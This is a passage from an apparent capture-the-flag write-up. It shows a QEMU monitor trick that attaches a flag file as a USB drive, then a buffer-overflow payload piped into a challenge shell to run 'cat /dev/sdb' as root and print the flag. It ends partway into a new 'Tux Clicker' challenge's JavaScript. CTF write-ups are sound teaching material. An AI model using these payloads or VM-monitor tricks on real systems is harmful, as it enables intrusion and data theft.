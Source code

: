 Yup, this a really nice qemu feature that lets the user modify the state of the VM, and even adding/removing devices!
Let's use this to create a new drive pointing to the flag, then attach it as a usb storage device.

```
(qemu) drive_add 0 if=none,file=/app/flag,format=raw,id=disk1
OK
(qemu) device_add usb-storage,bus=ehci.0,drive=disk1
```

Nice, we added the usb drive, and if we go back to the monitor with Control+A c, we can even see a new drive appearing:
```sh
$ fdisk -l
    fdisk: can't open '/dev/sdb': Permission denied
```

Now we just need to cat this but we don't have any permission to do that. Fortunately the last challenge we solved gave us root access!

Let's edit the `command` from the last exploit to:
```python
command = b"cat /dev/sdb"
```

and execute it!

```sh
$ printf 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xffAA
AAAAAAAAAAAAAT\x87^]U\x00\x00\x00\n\x04cat /dev/sdb' | penguinsh
PenguinSH> AAAAAAAAAAAAAAAAAAAAAAAT^]U
Command not found :(
PenguinSH> 
Bye bye!
LDBARI{escape_vm_escape_everything}
```

# Tux Clicker

This is a simple cookie clicker...

Let's analyze the js code in the page: 
```javascript
// Add event listener to the tux
const tux = document.getElementById('tux');
const counter = document.getElementById('counter');
let count = 0;
let x = 10;

tux.addEventListener('click', () => {
    count++;    
    counter.textContent = count;
    tux.setAttribute('data-count', count);

    if (count % 100 === 0) {
        tux.classList.add('rotate');
    }

```